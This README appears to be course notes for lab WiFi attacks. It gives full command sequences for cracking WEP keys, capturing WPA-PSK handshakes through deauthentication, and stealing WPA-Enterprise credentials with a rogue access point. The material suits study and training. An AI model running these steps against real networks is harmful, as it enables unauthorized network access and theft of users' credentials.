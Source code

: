 # WiFi_Hacking_Memo
Quick notes taken from the course around WiFi hacking
## WEP
1.	Place the wireless interface in monitor mode using the Airmon-ng tool
```
sudo airmon-ng start wlan0
```
2.	Discover nearby WiFi networks using Airodump-ng tool
```
sudo airodump-ng wlan0mon --wps
```
3.	Perform a targeted scan with the AP BSSID and channel discovered from step 2, and redirect the capture to a file named ‘WEP’
```
sudo airodump-ng -c 11 -b XX:XX:XX:XX:XX:XX -w WEP wlan0mon
```
4.	When the above command in step 3 shows at least 1 connected station to the AP, open a new terminal tab and sent ARP replay packets to the said station using Aireplay-ng, by specifying the targeted station ID
```
sudo aireplay-ng -3 -b XX:XX:XX:XX:XX:XX -h XX:XX:XX:XX:XX:XX wlan0mon
```
5.	Back on the previous tab, where Airodump-ng is still running and capturing traffic, the tool should have captured the handshake successfully. Stop Airodump-ng by pressing the CTRL + C keys and stop the monitor mode for the interface
```
sudo airmon-ng stop wlan0
```
6.	Use Aircrack-ng to crack the key from the output file created by Airodump-ng
```
sudo aircrack-ng WEP01.cap
```
7.	Once the key is cracked by Aircrack-ng, use iwconfig to connect the compromised wireless network
```
sudo iwconfig wlan0 essid <SSID_name> key <KEY>
```
8.	Refresh the DHCP client configuration and obtain an IP from the AP
```
sudo dhclient wlan0
```
9.	Get the content of the proof.txt file
```
curl http://192.168.1.1/proof.txt
```
## WPA-PSK (Personal)
1.	Place the wireless interface in monitor mode using Airmon-ng
```
sudo airmon-ng start wlan0
```
2.	Discover nearby WiFi networks using Airodump-ng
```
sudo airodump-ng wlan0mon
```
3.	Perform a targeted scan with the AP BSSID and channel discovered from step 2, and redirect the capture to a file named ‘PSK’
```
sudo airodump-ng --bssid XX:XX:XX:XX:XX:XX --channel 8 --write PSK wlan0mon
```
4.	When the command in step 3 shows at least 1 connected station to the AP, open a new terminal tab and send deauth packets (5) to the said station(s) using Aireplay-ng
```
aireplay-ng -0 5 -a XX:XX:XX:XX:XX:XX wlan0mon
```
5.	Back on the previous tab, where Airodump-ng is still running and capturing traffic, the tool should have captured the handshake successfully, from the deauthenticated client which reconnected. Stop Airodump-ng by pressing the CTRL + C keys and stop the monitor mode for the interface
```
sudo airmon-ng stop wlan0
```
6.	Use Aircrack-ng to crack the key from the output file created by Airodump-ng, with a wordlist specific to WPA attacks
```
sudo aircrack-ng PSK-01.cap -w /usr/share/wordlists/seclists/Passwords/WiFi-WPA/probable-v2-wpa-top4800.txt
```
7.	When the key is cracked by Aircrack-ng, use wpa_passphrase to create a configuration file to connect the wireless network
```
wpa_passphrase <SSID_name> <KEY> > wpa.conf
```
8.	Connect to the WiFi network using wpa_supplicant with the configuration generated in step 7
```
wpa_supplicant -B -i wlan0 -c ./wpa.conf
```
9.	Refresh the DHCP client configuration and obtain an IP from the AP using dhclient
```
sudo dhclient wlan0
```
10.	Obtain the content of proof.txt
```
curl http://192.168.1.1/proof.txt
```
## WPA-MGT (Enterprise)
1.	Place the wireless interface in monitor mode using the Airmon-ng
```
sudo airmon-ng start wlan0
```
2.	Discover nearby WiFi networks using Airodump-ng
```
sudo airodump-ng wlan0mon
```
3.	Perform a targeted scan with the AP BSSID and channel discovered from step 2, and redirecting the capture to an output file named ‘mgt'
```
sudo airodump-ng -c 10 -w mgt wlan0mon
```
4.	When the above command in step 3 shows at least 1 connected station to the AP, open a new terminal tab and send a deauth packet to the said station/client using Aireplay-ng, by specifying the targeted station ID
```
sudo aireplay-ng -0 1 -a XX:XX:XX:XX:XX:XX -c XX:XX:XX:XX:XX:XX wlan0mon
```
5.	Back on the previous tab, where Airodump-ng is still running and capturing traffic, the tool should have captured the handshake successfully, from the deauthenticated client which reconnected. Stop Airodump-ng by pressing the CTRL + C keys and stop the monitor mode for the interface
```
sudo airmon-ng stop wlan0
```
6.	Since freeradius is already installed on the attacker machine, simply make sure to have certificates in the right place, those will be needed for the hostadp-mana tool used in step 8
```
cd /etc/freeradius/3.0/certs
make
```
7.	Since hostapd-mana is already installed, simply create the configuration file we’ll use, as referenced in [mana.conf](https://github.com/ob1lan/WiFi_Hacking_Memo/blob/main/mana.conf), along with the EAP user file as referenced in [mana.eap.user](https://github.com/ob1lan/WiFi_Hacking_Memo/blob/main/mana.eap.user)

8.	Use hostapd-mana with the configuration files created in step 7 to create a rogue AP
```
sudo hostapd-mana /etc/hostapd-mana/mana.conf
```
9.	After the hostadp-mana tools captured at least 1 authenticated client, stop the capture and verify the content of hostapd.credout to check the captured credentials and get the relevant asleap command to crack them
```
cat /tmp/hostapd.credout
```
10.	Execute the asleap tool command as obtained in step 9 to crack the captured credentials, with the password.lst wordlist from john’s collection
```
asleap -C XX:XX:XX:XX:XX:XX:XX:XX -R XX:XX:XX:XX:XX:XX:XX:XX:XX:XX:XX:XX:XX:XX:XX:XX:XX:XX:XX:XX:XX:XX -W /usr/share/john/password.lst
```
11.	When asleap is done cracking the credentials, create the mgt.conf file with the above content reflecting the cracked credentials, this file will be used in step 12 to connect the network using with wpa-supplicant
```
network={
        scan_ssid=1 
        eap=PEAP 
        ssid="SSID_NAME" 
        key_mgmt=WPA-EAP 
        identity="DOMAIN\USERNAME" 
        password="PASSWORD_CRACKED" 
        phase1="peaplabel=O" 
        phase2="auth=MSCHAPV2"
}
```
12.	Connected to the WiFi network using wpa_supplicant with the configuration generated in step 11
```
wpa_supplicant -B -i wlan0 -c ./mgt.conf
```
13.	Refresh the DHCP client configuration and obtain an IP from the AP
```
sudo dhclient wlan0
```
14.	Obtain the content of the proof.txt file
```
curl http://192.168.1.1/proof.txt
```
